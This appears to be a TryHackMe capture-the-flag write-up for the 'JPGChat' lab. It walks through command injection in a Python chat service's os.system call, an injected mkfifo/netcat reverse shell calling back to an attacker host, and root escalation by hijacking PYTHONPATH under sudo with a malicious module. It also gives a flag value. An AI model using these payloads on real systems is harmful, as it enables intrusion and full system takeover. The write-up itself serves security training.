



# JPGChat - TryHackMe Writeup

Exploiting a poorly made custom chatting service written in Python.

[](https://tryhackme.com/room/lafb2026e9)  
**Key Vulnerabilities / Concepts:**

- OSINT (GitHub Source Code Analysis)
- Command Injection (`os.system`)
- Python Environment Hijacking (`PYTHONPATH` with `sudo`)

## Table of Contents

- [Enumeration](#enumeration)
  - [Nmap Scan](#nmap-scan)
- [OSINT & Source Code Analysis](#osint--source-code-analysis)
- [Initial Access / Exploitation](#initial-access--exploitation)
  - [1. Start a Netcat Listener](#1-start-a-netcat-listener)
  - [2. Connect and Inject Payload](#2-connect-and-inject-payload)
- [Privilege Escalation](#privilege-escalation)
  - [Enumeration](#enumeration-1)
  - [Inspecting the Script](#inspecting-the-script)
  - [Python Module Hijacking](#python-module-hijacking)

---

## Enumeration

### Nmap Scan

First, we start with an Nmap scan to identify open ports and services:

```bash
# Nmap 7.95 scan initiated
# nmap --privileged -vvv -p 22,3000 -4 -sCV -oN rust 10.49.139.44
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
| fingerprint-strings:
|   GenericLines, NULL:
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

The scan reveals:

- **Port 22**: SSH service.
- **Port 3000**: A custom service called "JPChat".

The banner on port 3000 mentions that the source code is available on the admin's GitHub.

## OSINT & Source Code Analysis

Searching for "JPChat" on GitHub leads us to the source code of the service. Here is the relevant snippet from the `report_form` function:

```python
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

- The vulnerability is obvious: the `os.system` command uses `%s` string formatting to directly include user input into a shell command without any sanitization.
- This is a classic **Command Injection** vulnerability. We can use a semicolon (`;`) to terminate the intended `echo` command and execute our own bash commands.

## Initial Access / Exploitation

To exploit this, we can use a bash reverse shell payload.

### 1. Start a Netcat Listener

On our local machine, we listen for an incoming connection:

```bash
nc -lvnp 4444
```

### 2. Connect and Inject Payload

Connect to the JPChat service:

```bash
nc <IP> 3000
```

When prompted for `[REPORT]`, we inject our payload in the `your name` field:

```bash
[REPORT]
your name:
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f #
```

> And thus we got our reverse shell

- Now by using `python3` we can make it interactive
- Also you can press `CTRL+Z` to background the shell and use `stty raw -echo; fg` to make it interactive



After gaining access, we find the user flag in Wesley's home directory:
`JPC{487030410a543503cbb59ece16178318}`

## Privilege Escalation

### Enumeration

Checking sudo permissions for user `wes`:

```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Two important details here:

1. `env_keep+=PYTHONPATH`: This means the `PYTHONPATH` environment variable is preserved when running commands with `sudo`.
2. We can run `/usr/bin/python3 /opt/development/test_module.py` as root without a password.

### Inspecting the Script

Let's check `test_module.py`:

```python
#!/usr/bin/env python3
from compare import *
print(compare.Str('hello', 'hello', 'hello'))
```

The script imports a module named `compare`. Since we can control `PYTHONPATH`, we can force Python to load a malicious `compare.py` from a directory we control.

### Python Module Hijacking

We'll create a malicious `compare.py` in the `/home/wes` directory:

```python
import pty
pty.spawn("/bin/bash")
exit()
```



Now, we execute the sudo command while setting `PYTHONPATH` to the current directory:

```bash
sudo PYTHONPATH=/home/wes /usr/bin/python3 /opt/development/test_module.py
```

Since `PYTHONPATH` includes `/home/wes`, the script loads our malicious `compare.py` and executes `/bin/bash` as **root**.

And thus we got our `root` shell

Finally, we can grab the root flag:


